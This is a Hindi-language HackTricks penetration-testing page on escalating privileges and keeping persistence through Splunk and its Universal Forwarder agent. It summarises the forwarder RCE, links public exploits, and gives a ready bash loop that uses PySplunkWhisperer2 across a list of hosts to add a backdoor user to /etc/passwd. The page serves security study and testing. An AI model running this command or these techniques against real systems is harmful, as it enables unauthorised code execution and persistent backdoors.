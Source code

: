 # Splunk LPE और स्थिरता

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

यदि **आंतरिक** या **बाहरी** रूप से किसी मशीन का **गणना** करते समय आपको **Splunk चलाते हुए** (पोर्ट 8090) मिलता है, यदि आपको किसी **मान्य क्रेडेंशियल** का पता है तो आप **Splunk सेवा का दुरुपयोग** करके **एक शेल** को उस उपयोगकर्ता के रूप में **निष्पादित** कर सकते हैं जो Splunk चला रहा है। यदि रूट इसे चला रहा है, तो आप रूट तक विशेषाधिकार बढ़ा सकते हैं।

यदि आप **पहले से ही रूट हैं और Splunk सेवा केवल लोकलहोस्ट पर सुन नहीं रही है**, तो आप **Splunk सेवा से** **पासवर्ड** फ़ाइल **चुरा सकते हैं** और **पासवर्ड** को **क्रैक** कर सकते हैं, या इसमें **नए** क्रेडेंशियल **जोड़ सकते हैं**। और होस्ट पर स्थिरता बनाए रख सकते हैं।

नीचे पहले चित्र में आप देख सकते हैं कि एक Splunkd वेब पृष्ठ कैसा दिखता है।

## Splunk यूनिवर्सल फॉरवर्डर एजेंट एक्सप्लॉइट सारांश

अधिक विवरण के लिए पोस्ट देखें [https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/](https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/)। यह केवल एक सारांश है:

**एक्सप्लॉइट अवलोकन:**
Splunk यूनिवर्सल फॉरवर्डर एजेंट (UF) को लक्षित करने वाला एक एक्सप्लॉइट उन हमलावरों को अनुमति देता है जिनके पास एजेंट पासवर्ड है, एजेंट चला रहे सिस्टम पर मनमाना कोड निष्पादित करने के लिए, संभावित रूप से पूरे नेटवर्क को समझौता कर सकता है।

**मुख्य बिंदु:**
- UF एजेंट आने वाले कनेक्शनों या कोड की प्रामाणिकता को मान्य नहीं करता है, जिससे यह अनधिकृत कोड निष्पादन के लिए संवेदनशील हो जाता है।
- सामान्य पासवर्ड अधिग्रहण विधियों में उन्हें नेटवर्क निर्देशिकाओं, फ़ाइल शेयरों, या आंतरिक दस्तावेज़ों में ढूंढना शामिल है।
- सफल दुरुपयोग से समझौता किए गए होस्ट पर SYSTEM या रूट स्तर की पहुंच, डेटा निकासी, और आगे के नेटवर्क में घुसपैठ हो सकती है।

**एक्सप्लॉइट निष्पादन:**
1. हमलावर UF एजेंट पासवर्ड प्राप्त करता है।
2. एजेंटों को आदेश या स्क्रिप्ट भेजने के लिए Splunk API का उपयोग करता है।
3. संभावित क्रियाओं में फ़ाइल निष्कर्षण, उपयोगकर्ता खाता हेरफेर, और सिस्टम समझौता शामिल हैं।

**प्रभाव:**
- प्रत्येक होस्ट पर SYSTEM/रूट स्तर की अनुमतियों के साथ पूर्ण नेटवर्क समझौता।
- पहचान से बचने के लिए लॉगिंग को अक्षम करने की संभावना।
- बैकडोर या रैनसमवेयर की स्थापना।

**दुरुपयोग के लिए उदाहरण आदेश:**
```bash
for i in `cat ip.txt`; do python PySplunkWhisperer2_remote.py --host $i --port 8089 --username admin --password "12345678" --payload "echo 'attacker007:x:1003:1003::/home/:/bin/bash' >> /etc/passwd" --lhost 192.168.42.51;done
```
**उपयोगी सार्वजनिक एक्सप्लॉइट्स:**
* https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2
* https://www.exploit-db.com/exploits/46238
* https://www.exploit-db.com/exploits/46487


## Splunk क्वेरीज़ का दुरुपयोग

**अधिक जानकारी के लिए पोस्ट देखें [https://blog.hrncirik.net/cve-2023-46214-analysis](https://blog.hrncirik.net/cve-2023-46214-analysis)**

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

